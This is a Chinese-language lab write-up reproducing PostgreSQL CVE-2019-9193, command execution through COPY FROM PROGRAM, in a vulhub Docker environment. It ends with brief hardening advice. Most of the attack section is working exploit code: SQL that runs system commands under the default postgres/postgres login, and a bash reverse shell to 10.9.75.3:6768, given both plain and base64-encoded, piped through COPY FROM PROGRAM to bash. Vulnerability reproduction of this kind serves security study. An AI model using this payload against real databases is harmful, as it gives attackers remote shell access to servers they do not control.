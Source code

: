 # PostgreSQL 高权限命令执行漏洞（CVE-2019-9193）



### 1.1、漏洞描述

PostgreSQL 是一款关系型数据库。其9.3到11版本中存在一处“特性”，管理员或具有“COPY TO/FROM PROGRAM”权限的用户，可以使用这个特性执行任意命令

### 1.2、漏洞等级

### 1.3、影响版本

9.3到11

### 1.4、漏洞复现

#### 1、基础环境

Path：vulhub/postgres/CVE-2019-9193

---

启动测试环境：

```bash
sudo docker-compose up -d
```

环境启动后，将在本地开启PG默认的5432端口。

![image-20240108104408555](./imgs/image-20240108104408555.png)

默认账号密码为postgres/postgres

#### 2、漏洞验证

适用Navicat连接，新建查询

```mssql
-- 先删除你想要使用但是已经存在的表
DROP TABLE IF EXISTS cmd_exec;

-- 创建保存系统命令输出的表
CREATE TABLE cmd_exec(cmd_output text);

-- 执行系统命令利用特定函数
COPY cmd_exec FROM PROGRAM 'id'; 

-- 查看执行结果
SELECT * FROM cmd_exec;

```

![image-20240108105049382](./imgs/image-20240108105049382.png)

### 1.5、深度利用

#### 1、反弹Shell

```bash
# base64 编码前
/bin/bash -i >& /dev/tcp/10.9.75.3/6768 0>&1

# base64 编码后
L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzEwLjkuNzUuMy82NzY4IDA+JjE=
```

kali开启监听

执行 SQL语句

```mssql
DROP TABLE IF EXISTS cmd_exec;
CREATE TABLE cmd_exec(cmd_output text);
COPY cmd_exec FROM PROGRAM 'echo "L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzEwLjkuNzUuMy82NzY4IDA+JjE=" | base64 -d | bash'; 
SELECT * FROM cmd_exec;
```

![image-20240108105406205](./imgs/image-20240108105406205.png)

反弹成功

![image-20240108105445424](./imgs/image-20240108105445424.png)

### 1.6、修复建议

```
1、pg_read_server_files，pg_write_server_files 和 pg_execute_server_program 角色涉及读取和写入具有大权限的数据库服务器文件。将此角色权限分配给数据库用户时，应慎重考虑；

2、增强密码的复杂度；

3、进行网络隔离，限制 IP 访问，只允许需要的 IP 连接；
```

